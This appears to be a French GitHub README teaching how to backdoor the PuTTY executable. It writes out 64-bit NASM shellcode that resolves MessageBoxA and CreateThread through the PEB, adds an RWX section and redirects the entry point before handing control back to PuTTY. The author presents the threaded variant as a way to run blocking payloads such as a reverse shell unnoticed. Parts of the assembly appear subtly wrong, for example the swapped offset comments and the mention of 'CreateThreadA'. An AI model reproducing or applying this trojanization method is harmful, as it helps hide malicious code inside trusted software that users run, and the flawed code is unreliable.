



# Pack Shellcode in PE

L'objectif est d'expliquer comment packer un shellcode dans un PE.

## Getting started

Pour un maximum de difficulté, on va faire un **PE 64 bits**. Packer un **64 bits** sans tout casser, et on saura **tout packer**.  

### Prérequis

Packer un shellcode en **64 bits** demande une compréhension pointue des **fonctions et appels API Windows**.  
Donc, parallèlement, des **portes logiques** de l'informatique.  

Il va falloir **apprendre et surtout comprendre** les **registres** et la **stack**.  

Ce repo a **plus pour but de montrer ce qui est possible** plutôt que d'expliquer en profondeur les choses.  
Je vous invite vraiment à discuter avec **Cody de Sourcegraph**.

### Outils

- **Putty**  
- **Pe-bear**  
- **Notepad / Éditeur de texte**  
- **NASM Compiler**  
- **x64dbg**  

---

### Première partie

C'est ici qu'on commence à rigoler.  

Il nous faut **un shellcode** simple. Ce shellcode, on est **obligé** de le construire.  
Je veux **quelque chose de simple** : on va simplement ouvrir une **MessageBoxA** qui bloquera le thread en cours tant que "OK" n'a pas été cliqué.  

Il est **important** de savoir qu'un **shellcode en 64 bits** doit :  

1. Trouver **l'adresse d'export des DLLs** (**InMemoryOrderModuleList**) chargées dans le PE.  
2. Trouver la DLL qui nous intéresse (**USER32.DLL**).  
3. Trouver la fonction et l'appeler.  

Voici le **shellcode-version-1** utilisé :  


```
[BITS 64]
section .data
    title db "Test", 0            ; Titre de la MessageBox
    message db "Click OK", 0      ; Message affiché
    user32_dll db "user32.dll", 0  ; Nom de la DLL contenant MessageBoxA
    msgbox_func db "MessageBoxA", 0 ; Nom de la fonction recherchée

section .text
    ; Trouver user32.dll
    xor rdx, rdx
    mov rax, gs:[rdx + 0x60]    ; Charger l'adresse du PEB (Process Environment Block)
    mov rax, [rax + 0x18]       ; Charger l'adresse de PEB_LDR_DATA
    mov rsi, [rax + 0x20]       ; Charger l'adresse de la liste InMemoryOrderModuleList

find_user32:
    mov rbx, [rsi + 0x20]       ; Charger l'adresse du nom du module (DLL)
    mov rax, [rsi + 0x50]       ; Charger l'adresse de la base du module
    mov rsi, [rsi]              ; Passer à l'entrée suivante de la liste
    
    test rax, rax               ; Vérifier si on a atteint la fin de la liste
    jz find_user32
    
    ; Comparer le nom du module avec "USER32"
    cmp word [rax], 'U'
    jne find_user32
    cmp word [rax + 2], 'S'
    jne find_user32
    cmp word [rax + 4], 'E'
    jne find_user32
    cmp word [rax + 6], 'R'
    jne find_user32

    ; Trouver MessageBoxA
    mov rax, rbx
    mov ebx, [rax + 0x3C]      ; Charger l'offset de l'en-tête PE
    add rbx, rax               ; Pointer vers l'en-tête PE
    mov ebx, [rbx + 0x88]      ; Charger l'offset de l'export table
    add rbx, rax               ; Pointer vers la table d'exportation
    mov ecx, [rbx + 0x18]      ; Nombre de fonctions exportées
    mov r8d, [rbx + 0x20]      ; Adresse du tableau des noms de fonctions
    add r8, rax                ; Convertir en adresse absolue
    mov r9d, [rbx + 0x24]      ; Adresse du tableau des index d'ordinals
    add r9, rax                ; Convertir en adresse absolue
    mov r10d, [rbx + 0x1C]     ; Adresse du tableau des adresses de fonctions
    add r10, rax               ; Convertir en adresse absolue

    xor rdx, rdx               ; Initialiser le compteur 

find_msgbox:
    mov r11d, [r8 + rdx*4]     ; Charger l'offset du nom de la fonction
    add r11, rax               ; Convertir en adresse absolue
    
    ; Comparer avec "MessageBoxA"
    cmp byte [r11], 'M'
    jne next_msgbox
    cmp byte [r11+1], 'e'
    jne next_msgbox
    cmp byte [r11+2], 's'
    jne next_msgbox
    cmp byte [r11+3], 's'
    jne next_msgbox
    cmp byte [r11+4], 'a'
    jne next_msgbox
    cmp byte [r11+5], 'g'
    jne next_msgbox
    cmp byte [r11+6], 'e'
    jne next_msgbox
    cmp byte [r11+7], 'B'
    jne next_msgbox
    cmp byte [r11+8], 'o'
    jne next_msgbox
    cmp byte [r11+9], 'x'
    jne next_msgbox
    cmp byte [r11+10], 'A'
    je found_msgbox

next_msgbox:
    inc rdx
    cmp rdx, rcx               ; Comparer avec le nombre total de fonctions exportées
    jb find_msgbox

found_msgbox:
    movzx edx, word [r9 + rdx*2] ; Récupérer l'ordinal
    mov edx, [r10 + rdx*4]       ; Charger l'adresse de la fonction
    add rax, rdx                 ; Convertir en adresse absolue

    ; Avant l'appel de MessageBoxA
    sub rsp, 40  ; Aligner la pile pour la convention d'appel x64

    ; Appel de MessageBoxA
    xor rcx, rcx               ; hWnd = NULL
    lea rdx, [rel message]     ; Charger l'adresse du message
    lea r8, [rel title]        ; Charger l'adresse du titre
    mov r9d, 0                 ; uType = 0 (OK button only)
    call rax                   ; Appeler MessageBoxA

    ; Après l'appel de MessageBoxA
    add rsp, 40  ; Restaurer la pile
    db 0x00, 0x00, 0x00, 0x00, 0x00  ;Place necessaire pour le jump vers le veritable entrypoint

```


## Compilation avec NASM

On va compiler avec **NASM** :  

```
nasm -f bin test.asm -o shellcode.bin
```

Notez que celui-ci est compilé en **BIN** et non pas en **x64** pour éviter toutes les définitions de variables.  
Maintenant, on a un shellcode qui va ouvrir une **MessageBoxA** en format **binaire**.  
Mais là, on ne peut rien en faire.  

---

## Backdoorer le programme

On va enfin **backdoorer** le programme.  

1. Ouvrir **PE-BEAR** et charger **Putty** à l’intérieur.  
2. **Clic droit** dans **Sections** → **Add section**  
3. Choisir un nom, ici `.newcode`  
4. Choisir le **shellcode.bin** que l'on vient de créer  
5. Bien cocher :  
   - ✅ **Read**  
   - ✅ **Execute**  
   - ✅ **Write**  
6. Les tailles **raw** sont directement définies grâce à **PE-BEAR**.  
7. 


Dans la nouvelle section `.newcode`,  
on va ajouter un **jump** sur l'**entrypoint officiel** du programme **Putty** (**Différence entre RAW et RVA**)  

- **EP RAW** → `0xB8B44` (adresse brute de l'entrypoint)  
- **EP RVA** → `0xB9744` (adresse en mémoire virtuelle)  

Le but est de **mettre l'entrypoint** sur notre **shellcode**, puis, à la fin, de reprendre l’exécution normale de **Putty**.  

---

### Ajouter le jump

Pour ça, il faut **calculer l'offset** du jump.  
Un script est fourni avec.  

La formule est :  

```
offset_destination - (offset_source + 5)
```

Ici, on a des **bytes null** à la fin du shellcode.  
Ces bytes sont là pour accueillir le **jump**.  

- Départ : `0x19E0F2`  
- Destination : `0xB9744 + 5`  
- Résultat : `0x4DB6F1FF`  

On ajuste juste le préfixe du jump **`E9`**, et voilà !  
On a un **jump** sur l'**entrypoint officiel** de **Putty**.



---

### Modifier l’entrypoint

Maintenant, on change l’**entrypoint**.  

1. Aller dans la section **`.newcode`**  
2. **Clic droit** sur la **première instruction** (`XOR RDX, RDX`)  
3. **Set EP = `0x19E000`**  

---

### Et voilà, c'est fini !

Notre **PE** est **backdooré**.  

En résumé, on a :  

- **Entry point** sur notre shellcode  
- **Recherche** de la **DLL `user32.dll`**  
- **Recherche** de la fonction **`MessageBoxA`**  
- **Appel** de `MessageBoxA`  
- **Attente** de la fermeture de la MessageBox  
- **Jump** sur l’**entrypoint officiel** de Putty  

---

## Résultat  



---

## Deuxième partie

C'est déjà **pas mal**, mais ça me **chagrine un peu**.  

Le problème ?  
Si notre **shellcode** comporte une **boucle infinie**, qu’on ne peut **pas casser** (ex. : attendre le buffer d’un **reverse shell**), alors **l'utilisateur n'aura pas Putty ouvert**.  
Car le shellcode doit **se terminer** avant de **passer le jump sur Putty**.  

Mais je vous rappelle : **on fait ce qu'on veut** en recherche de fonction et de DLL.  

---

Voici donc un **shellcode amélioré** :  

- Il ouvrira une **MessageBoxA** dans un **nouveau thread**  
- Puis il **jumpera** sur l’entrypoint **officiel** de **Putty**  


```
[BITS 64]
section .data
    title db "Test", 0
    message db "Click OK", 0
    msgbox_func db "MessageBoxA", 0
    thread_handle dq 0  ; Handle pour le thread
    saved_user32 dq 0   ; Sauvegarde l'adresse de user32.dll

    rien_saved_rbx dq 56  ; Variable inutilisée

    ; Sauvegarde des registres pour restauration
    saved_rax dq 0
    saved_rbx dq 0
    saved_rcx dq 0
    saved_rdx dq 0
    saved_rbp dq 0
    saved_rsp dq 0
    saved_rsi dq 0
    saved_rdi dq 0
    saved_r8  dq 0
    saved_r9  dq 0
    saved_r10 dq 0
    saved_r11 dq 0
    saved_r12 dq 0
    saved_r13 dq 0
    saved_r14 dq 0
    saved_r15 dq 0

section .text
    global _start

_start:
    ; Sauvegarde des registres
    mov [rel saved_rax], rax
    mov [rel saved_rbx], rbx
    mov [rel saved_rcx], rcx
    mov [rel saved_rdx], rdx
    mov [rel saved_rbp], rbp
    mov [rel saved_rsp], rsp
    mov [rel saved_rsi], rsi
    mov [rel saved_rdi], rdi
    mov [rel saved_r8], r8
    mov [rel saved_r9], r9
    mov [rel saved_r10], r10
    mov [rel saved_r11], r11
    mov [rel saved_r12], r12
    mov [rel saved_r13], r13
    mov [rel saved_r14], r14
    mov [rel saved_r15], r15

    ; Accéder au PEB (Process Environment Block)
    xor rdx, rdx
    mov rax, gs:[rdx + 0x60]    ; PEB
    mov rax, [rax + 0x18]       ; LDR
    mov rsi, [rax + 0x20]       ; Premier module
 
    jmp find_user32

; Fonction exécutée dans le thread
message_box_thread:
    mov rax, rcx      ; RCX contient l'adresse de user32.dll
    mov rbx, rax      ; Copie dans RBX
    xor rdx, rdx      ; RAZ RDX

    ; Récupération des tables d'exports
    mov ebx, [rax + 0x3C]  ; PE header
    add rbx, rax
    mov ebx, [rbx + 0x88]  ; Export Table RVA
    add rbx, rax
    mov ecx, [rbx + 0x18]  ; Nombre de fonctions exportées
    mov r8d, [rbx + 0x20]  ; Table des noms des fonctions
    add r8, rax
    mov r9d, [rbx + 0x24]  ; Table des indices des fonctions
    add r9, rax
    mov r10d, [rbx + 0x1C] ; Table des adresses des fonctions
    add r10, rax

    xor rdx, rdx  ; Initialisation du compteur

find_msgbox:
    mov r11d, [r8 + rdx*4]  ; Lire l'adresse du nom de fonction
    add r11, rax            ; Adresse complète
    
    ; Comparaison avec "MessageBoxA"
    cmp byte [r11], 'M'
    jne next_msgbox
    cmp byte [r11+1], 'e'
    jne next_msgbox
    cmp byte [r11+2], 's'
    jne next_msgbox
    cmp byte [r11+3], 's'
    jne next_msgbox
    cmp byte [r11+4], 'a'
    jne next_msgbox
    cmp byte [r11+5], 'g'
    jne next_msgbox
    cmp byte [r11+6], 'e'
    jne next_msgbox
    cmp byte [r11+7], 'B'
    jne next_msgbox
    cmp byte [r11+8], 'o'
    jne next_msgbox
    cmp byte [r11+9], 'x'
    jne next_msgbox
    cmp byte [r11+10], 'A'
    je found_msgbox

next_msgbox:
    inc rdx
    cmp rdx, rcx           
    jb find_msgbox

found_msgbox:
    movzx edx, word [r9 + rdx*2]
    mov edx, [r10 + rdx*4]
    add rax, rdx

    ; Appel de MessageBoxA
    sub rsp, 40  ; Alignement de la pile
    xor rcx, rcx ; HWND = NULL
    lea rdx, [rel message]  ; Texte du message
    lea r8, [rel title]     ; Titre
    mov r9d, 0              ; Type de boîte de message
    call rax
    add rsp, 40  ; Restauration de la pile

    ret

; Recherche user32.dll dans la liste des modules
find_user32:
    mov rbx, [rsi + 0x20]  ; Adresse base de la DLL
    mov rax, [rsi + 0x50]  ; Nom de la DLL (Unicode)
    mov rsi, [rsi]         ; Module suivant
    test rax, rax
    jz find_user32

    ; Vérification du nom "USER32"
    cmp word [rax], 'U'
    jne find_user32
    cmp word [rax + 2], 'S'
    jne find_user32
    cmp word [rax + 4], 'E'
    jne find_user32
    cmp word [rax + 6], 'R'
    jne find_user32

    mov [rel saved_user32], rbx  ; Sauvegarde l'adresse de user32.dll
    jmp find_kernel32

; Recherche de kernel32.dll
find_kernel32:
    xor rdx, rdx
    mov rax, gs:[rdx + 0x60]  ; PEB
    mov rax, [rax + 0x18]     ; LDR
    mov rsi, [rax + 0x20]     ; Premier module

next_mod:
    mov rbx, [rsi + 0x20]  ; Adresse base de la DLL
    mov rax, [rsi + 0x50]  ; Nom de la DLL
    mov rsi, [rsi]         ; Module suivant
    test rax, rax
    jz next_mod

    cmp word [rax], 'K'
    jne next_mod
    cmp word [rax + 2], 'E'
    jne next_mod
    cmp word [rax + 4], 'R'
    jne next_mod
    cmp word [rax + 6], 'N'
    jne next_mod

mov rax, rbx
    mov ebx, [rax + 0x3C]      
    add rbx, rax               
    mov ebx, [rbx + 0x88]      
    add rbx, rax               
    mov ecx, [rbx + 0x18]      
    mov r8d, [rbx + 0x20]      
    add r8, rax                
    mov r9d, [rbx + 0x24]      
    add r9, rax                
    mov r10d, [rbx + 0x1C]     
    add r10, rax

    xor rdx, rdx 
	

find_createthread:
    mov r11d, [r8 + rdx*4]  
    add r11, rax            
    
    cmp byte [r11], 'C'
    jne next_createthread
    cmp byte [r11+1], 'r'
    jne next_createthread
    cmp byte [r11+2], 'e'
    jne next_createthread
    cmp byte [r11+3], 'a'
    jne next_createthread
    cmp byte [r11+4], 't'
    jne next_createthread
    cmp byte [r11+5], 'e'
    jne next_createthread
    cmp byte [r11+6], 'T'
    jne next_createthread
    cmp byte [r11+7], 'h'
    jne next_createthread
    cmp byte [r11+8], 'r'
    jne next_createthread
    cmp byte [r11+9], 'e'
    jne next_createthread
    cmp byte [r11+10], 'a'
    jne next_createthread
    cmp byte [r11+11], 'd'
    je found_createthread

next_createthread:
    inc rdx
    cmp rdx, rcx           
    jb find_createthread

found_createthread:
    movzx edx, word [r9 + rdx*2]
    mov edx, [r10 + rdx*4]
    add rax, rdx

    ; Appeler CreateThread
    sub rsp, 48
    xor rcx, rcx               ; lpThreadAttributes
    xor rdx, rdx               ; dwStackSize
    lea r8, [rel message_box_thread] ; lpStartAddress
    mov r9, [rel saved_user32]  ; lpParameter = adresse user32.dll
    push 0                     ; dwCreationFlags
    push qword [rel thread_handle] ; lpThreadId
    call rax
    add rsp, 48

    ; Restaurer les registres après exécution
    mov rax, [rel saved_rax]
    mov rbx, [rel saved_rbx]
    mov rcx, [rel saved_rcx]
    mov rdx, [rel saved_rdx]
    mov rbp, [rel saved_rbp]
    mov rsp, [rel saved_rsp]
    mov rsi, [rel saved_rsi]
    mov rdi, [rel saved_rdi]
    mov r8,  [rel saved_r8]
    mov r9,  [rel saved_r9]
    mov r10, [rel saved_r10]
    mov r11, [rel saved_r11]
    mov r12, [rel saved_r12]
    mov r13, [rel saved_r13]
    mov r14, [rel saved_r14]
    mov r15, [rel saved_r15]

    db 0x00, 0x00, 0x00, 0x00, 0x00


```

Même démarche que pour la première partie.  

### En résumé, on a :  

- **Entry point** sur notre **shellcode**.  
- **Recherche** de la DLL **user32.dll**, et stockage dans une zone mémoire `rel saved_user32`.  
- **Recherche** de la DLL **kernel32.dll**.  
- **Recherche** de la fonction **CreateThreadA**.  
- **Appel** de **CreateThreadA**.  
- **Création d’un thread** qui va appeler `message_box_thread`.  
- Dans **`message_box_thread`** (exécuté dans un nouveau thread) :  
  - **Récupération** de l’adresse de **user32.dll**.  
  - **Recherche** de la fonction **MessageBoxA**.  
  - **Appel** de **MessageBoxA**.  
- **Jump** sur l’**entrypoint officiel** de **Putty** (dans le thread principal).  

---

### Résultat  

